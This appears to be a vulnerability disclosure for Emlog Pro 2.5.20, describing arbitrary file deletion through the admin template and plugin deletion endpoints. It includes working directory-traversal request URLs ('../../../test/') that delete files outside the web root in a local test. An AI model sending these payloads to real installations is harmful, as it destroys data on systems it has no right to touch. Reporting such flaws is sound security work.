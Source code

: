 Emlog Pro 2.5.20
Arbitrary file deletion vulnerability in the backend interface.

1. The functionality is primarily located in the backend template and plugin deletion process, as shown in the figure:
Template:
<img width="415" height="270" alt="image" src="https://github.com/user-attachments/assets/6a11c857-6739-4541-801d-eea24d423b3f" />


plugins：

<img width="415" height="293" alt="image" src="https://github.com/user-attachments/assets/608a4d5b-0cf5-4ba0-b3e1-01bf045976e1" />


1.Capture and delete APIs
Appearance：
http://localhost/admin/template.php?action=del&tpl=test&token=a4539d9677172ad9e96c7e02ebac0956f00babc9

<img width="415" height="283" alt="image" src="https://github.com/user-attachments/assets/e6cf4080-6063-42c0-ad5f-9a96d26be19b" />

<img width="415" height="273" alt="image" src="https://github.com/user-attachments/assets/1cc4c759-5a77-49de-9bd2-b0cc01b4ce9f" />


plugins：
http://localhost/admin/plugin.php?action=del&plugin=tips/tips.php&token=a4539d9677172ad9e96c7e02ebac0956f00babc9

<img width="416" height="258" alt="image" src="https://github.com/user-attachments/assets/48f217e7-d7cb-4026-81a4-94ae0b185796" />


2.Build the deletion payload
First, based on the deletion parameters and the location of template and plugin functions, the deletion starts in the templates and plugins of the content.

<img width="416" height="141" alt="image" src="https://github.com/user-attachments/assets/96fd4ad6-4d1d-4d4a-adcc-a4c98feb73c5" />

<img width="416" height="141" alt="image" src="https://github.com/user-attachments/assets/6e71efb7-3447-4c48-9a10-ac2b825600aa" />


So create a test folder outside the web application and perform directory traversal to delete the specified file:

<img width="415" height="241" alt="image" src="https://github.com/user-attachments/assets/108b15fb-1913-4a1a-8202-12db534fca8b" />

<img width="415" height="117" alt="image" src="https://github.com/user-attachments/assets/db9b3ef6-1495-4b44-b964-56e0924d2f0c" />



Try running the payload to delete:
The template interface successfully deleted 111.txt
http://localhost/admin/template.php?action=del&tpl=../../../test/111.txt&token=a4539d9677172ad9e96c7e02ebac0956f00babc9

<img width="415" height="232" alt="image" src="https://github.com/user-attachments/assets/0889bda6-8f4a-4b34-8df6-7db0fc12f06f" />


The plugin interface successfully deleted the test folder:
http://localhost/admin/plugin.php?action=del&plugin=../../../test/&token=a4539d9677172ad9e96c7e02ebac0956f00babc9

<img width="416" height="259" alt="image" src="https://github.com/user-attachments/assets/29cafc98-f366-4a06-9ae9-8197b27d8527" />


4. This implements the arbitrary file deletion function of emlog pro, which can destroy the integrity and stability of the system.
